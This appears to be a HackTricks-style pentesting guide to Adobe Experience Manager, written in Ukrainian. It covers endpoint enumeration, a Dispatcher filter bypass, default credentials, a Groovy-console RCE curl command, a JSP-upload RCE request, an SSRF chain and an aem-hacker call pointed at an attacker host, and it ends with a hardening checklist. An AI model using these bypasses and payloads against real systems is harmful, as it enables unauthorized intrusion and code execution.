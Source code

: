 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, частина Adobe Experience Cloud) є корпоративною CMS, яка працює на базі Apache Sling/Felix (OSGi) та Java Content Repository (JCR).
> З точки зору атакуючого, екземпляри AEM дуже часто відкривають небезпечні кінцеві точки розробки, слабкі правила Dispatcher, стандартні облікові дані та довгий список CVE, які виправляються щоквартально.

Список перевірки нижче зосереджується на **зовнішньо доступній (без аутентифікації) атакуючій поверхні**, яка постійно з'являється в реальних випадках (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Інші швидкі індикатори:
* `/etc.clientlibs/` статичний шлях присутній (повертає JS/CSS).
* `/libs/granite/core/content/login.html` сторінка входу з банером “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` коментар внизу HTML.

---

## 2. Високоякісні неавтентифіковані кінцеві точки

Шлях | Що ви отримуєте | Примітки
---- | ------------- | -----
`/.json`, `/.1.json` | JCR вузли через **DefaultGetServlet** | Часто заблоковано, але *Dispatcher bypass* (див. нижче) працює.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Витік дерева сторінок, внутрішні шляхи, імена користувачів.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix консоль | 403 за замовчуванням; якщо відкрито та знайдено облікові дані ⇒ завантаження пакета RCE.
`/crx/packmgr/index.jsp` | Менеджер пакетів | Дозволяє автентифіковані контент-пакети → завантаження JSP корисного навантаження.
`/etc/groovyconsole/**` | AEM Groovy Console | Якщо відкрито → довільне виконання Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Журнали аудиту | Розкриття інформації.
`/libs/cq/ui/content/dumplibs.html` | Вивантаження ClientLibs | Вектор XSS.

### Трюк обходу Dispatcher
Більшість виробничих сайтів знаходяться за *Dispatcher* (реверс-проксі). Його правила фільтрації можна обійти, додавши дозволене статичне розширення **після крапки з комою або закодованого нового рядка**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Один запит, як зазначено вище, часто розкриває вузли профілю користувача з адресами електронної пошти. P-T Partners опублікували хороші рекомендації щодо цієї вразливості. 【】

---

## 3. Загальні неправильні налаштування (все ще актуальні у 2025 році)

1. **Анонімний POST сервлет** – `POST /.json` з `:operation=import` дозволяє створювати нові вузли JCR. Блокування `*.json` POST у Dispatcher вирішує цю проблему. 【】
2. **Профілі користувачів, доступні для всіх** – за замовчуванням ACL надає `jcr:read` на `/home/users/**/profile/*` всім.
3. **Стандартні облікові дані** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** увімкнено ⇒ відображений XSS через `?debug=layout` (CVE-2016-7882, все ще виявляється на застарілих установках 6.4).
5. **Відкритий Groovy Console** – віддалене виконання коду шляхом надсилання Groovy скрипту:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Останні вразливості (каденція сервіс-паків)

Квартал | CVE | Вразливі | Вплив
------- | --- | -------- | ------
Грудень 2024 | **CVE-2024-43711** | 6.5.21 та раніше | Неправильна валідація введення → **Випадкове виконання коду** (вимагає авторизації з низькими привілеями). 【】
Грудень 2024 | CVE-2024-43724/26 | 6.5.21 та раніше | DOM / Збережений XSS у Move Page Wizard. 【】
Грудень 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS на основі DOM через підроблений URL. 【】
Грудень 2022 | CVE-2022-30683 | ≤ 6.5.13 | Дизайнерська помилка криптографії → розшифрування секрету (потребує облікових даних з низькими привілеями). 【】

Завжди перевіряйте бюлетень *APSB*, що відповідає сервіс-паку клієнта, і запитуйте останній **6.5.22** або *Cloud Service 2024.11*.

---

## 5. Фрагменти експлуатації

### 5.1 RCE через обхід диспетчера + завантаження JSP
Якщо анонімне записування можливе:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Тепер запитайте `/content/evil.jsp` – JSP виконується з користувачем процесу AEM.

### 5.2 SSRF до RCE (історичний < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` з **aem-hacker** автоматизує весь ланцюг. 【】

---

## 6. Інструменти

* **aem-hacker** – скрипт для енумерації, підтримує обхід диспетчера, виявлення SSRF, перевірки стандартних облікових записів та інше.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – рекурсивно запитувати `/_jcr_content.(json|html)`, щоб виявити приховані компоненти.
* **osgi-infect** – завантажити шкідливий OSGi пакет через `/system/console/bundles`, якщо доступні облікові дані.

---

## 7. Контрольний список посилення безпеки (для рекомендацій у вашому звіті)

1. Тримайте інстанцію на **останній кумулятивній службі** (на липень 2025: 6.5.22).
2. Видаліть/змініть стандартні облікові записи; впровадьте SSO/SAML.
3. Посиліть **фільтри диспетчера** – забороніть `;`, закодовані нові рядки та `*.json` або `*.querybuilder.json` для анонімних користувачів.
4. Вимкніть або захистіть консолі (`/system/console`, `/crx/*`, `/etc/groovyconsole`) за допомогою списків дозволених IP.
5. Застосуйте пакет *Anonymous Permission Hardening*, надісланий Adobe.

## Посилання

* Adobe Security Bulletin APSB24-69 – “Оновлення безпеки для Adobe Experience Manager (грудень 2024)”.
* 0ang3el – інструмент aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
